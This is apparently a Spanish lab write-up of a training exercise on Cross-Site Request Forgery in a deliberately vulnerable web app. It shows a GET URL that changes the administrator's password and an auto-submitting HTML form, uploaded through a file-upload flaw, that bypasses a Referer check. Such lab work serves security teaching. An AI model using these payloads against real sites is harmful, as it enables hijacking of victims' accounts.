

# Práctica 04: Cross Site Request Forgery (CSRF)

## 📝 Descripción
La falsificación de petición en sitios cruzados (**CSRF**) es una vulnerabilidad web que permite a un atacante inducir a los usuarios a realizar acciones que no pretenden, como cambiar su contraseña o realizar transferencias, aprovechando que ya están autenticados en la aplicación.

En esta práctica, explotamos la falta de validación de tokens anti-CSRF para cambiar la contraseña del administrador sin su consentimiento.

---

## 🟢 Nivel: LOW

En el nivel bajo, la aplicación no implementa ninguna protección contra CSRF. Además, utiliza el método `GET` para procesar el cambio de contraseña, lo que permite realizar el ataque simplemente visitando una URL maliciosa.

**Metodología:**
Se construye una URL que contiene los parámetros necesarios para cambiar la contraseña a "hacked". Al visitar este enlace con la sesión iniciada, el cambio se ejecuta inmediatamente.

**Payload:**
```text
http://<IP_DEL_SERVIDOR>:9090/vulnerabilities/csrf/?password_new=hacked&password_conf=hacked&Change=Change

```

**Evidencia:**
Al acceder a la URL, la aplicación confirma el cambio de contraseña.


---

## 🟠 Nivel: MEDIUM

En el nivel medio, la aplicación comprueba el encabezado HTTP `Referer` para asegurarse de que la petición proviene del propio servidor. Esto impide que un enlace externo funcione.

**Metodología (Ataque Encadenado):**
Para eludir esta protección, combinamos la vulnerabilidad CSRF con una vulnerabilidad de **File Upload** (Subida de Archivos).

1. Creamos un archivo HTML malicioso (`csrf.html`) que contiene un formulario auto-enviable para cambiar la contraseña.
2. Subimos este archivo al servidor víctima aprovechando la vulnerabilidad de "File Upload".
3. Accedemos al archivo subido (`/hackable/uploads/csrf.html`). Como el archivo se ejecuta *desde dentro* del servidor, la cabecera `Referer` es válida y el ataque tiene éxito.

**Código del archivo inyectado (`csrf.html`):**

```html
<form action="http://<IP_DEL_SERVIDOR>:9090/vulnerabilities/csrf/" method="GET" id="hack">
    <input type="hidden" name="password_new" value="medium">
    <input type="hidden" name="password_conf" value="medium">
    <input type="hidden" name="Change" value="Change">
</form>
<script>document.getElementById('hack').submit();</script>

```

**Evidencia:**
Se observa el mensaje de confirmación "Password Changed", demostrando que hemos saltado la protección del *Referer*.


